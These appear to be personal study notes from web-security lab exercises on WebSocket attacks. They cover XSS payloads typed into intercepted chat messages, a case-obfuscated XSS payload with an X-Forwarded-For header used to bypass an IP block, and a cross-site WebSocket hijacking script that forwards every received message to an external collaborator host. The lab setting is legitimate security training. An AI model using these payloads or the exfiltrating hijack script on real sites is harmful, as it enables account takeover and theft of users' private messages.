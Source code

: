 # Manipulating messages to exploit vulnerabilities
## This has an XSS vulnerability
- To exploit, interecpt the live chat message and change it to: `<img src=1 onerror='alert(1)'>`

# Cross-site web socket hijacking
## Occurs when only the session token is used in the handshake
## This is the exploit:
```html
<script>
    var ws = new WebSocket('wss://0a97007904d6e29880c2bccb00cd0079.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://qe8g9qt4z45jh7hrj2jrjzoyhpngb6zv.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

# Manipulating the WebSocket handshake to exploit vulnerabilities
- Again there is XSS, however this time if you send one it blacklists the IP 
    - You can use X-Forwarded-For to bypass this on the handshake
- Used repeater to reconnect with the header and used this payload: <img src=1 oNeRrOr=alert`1`>
